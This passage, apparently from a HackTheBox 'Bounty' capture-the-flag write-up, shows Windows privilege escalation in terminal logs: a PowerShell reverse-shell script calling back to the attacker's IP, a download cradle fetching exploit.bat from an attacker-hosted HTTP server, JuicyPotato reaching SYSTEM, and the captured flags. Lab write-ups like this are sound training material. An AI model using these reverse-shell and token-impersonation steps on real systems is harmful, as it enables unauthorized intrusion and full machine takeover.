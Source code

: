 Now, lets create the reverse shell and host the local server! 

Thereafter, we can grab the `exploit.bat` from our local server and execute `JuicyPotato.exe`!

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# cat revshell2.ps1
...
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 9999


┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# python3 -m http.server 6969
Serving HTTP on 0.0.0.0 port 6969 (http://0.0.0.0:6969/) ...
10.10.10.93 - - [08/Jul/2022 22:50:08] "GET /exploit.bat HTTP/1.1" 200 -
10.10.10.93 - - [08/Jul/2022 22:50:21] "GET /revshell2.ps1 HTTP/1.1" 200 -

- Netcat listener -
PS C:\users\merlin\desktop> (new-object net.webclient).downloadfile('http://10.10.14.23:6969/exploit.bat', 'C:\Users\merlin\Desktop\exploit.bat')
PS C:\users\merlin\desktop> dir


    Directory: C:\users\merlin\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/8/2022   5:45 PM         99 exploit.bat                       
-a---          7/8/2022   5:38 PM     347648 jp.exe   
PS C:\users\merlin\desktop> ./jp.exe -t * -p exploit.bat -l 9696
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9696
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

- Another netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bounty]
└─# nc -nlvp 9999                  
listening on [any] 9999 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.93] 49177
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> type c:\users\merlin\desktop\user.txt
06831fefdd281c825b6ba52e51ac5a26
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
d4ad739f4a8199ffea3b1149e40c121f
```

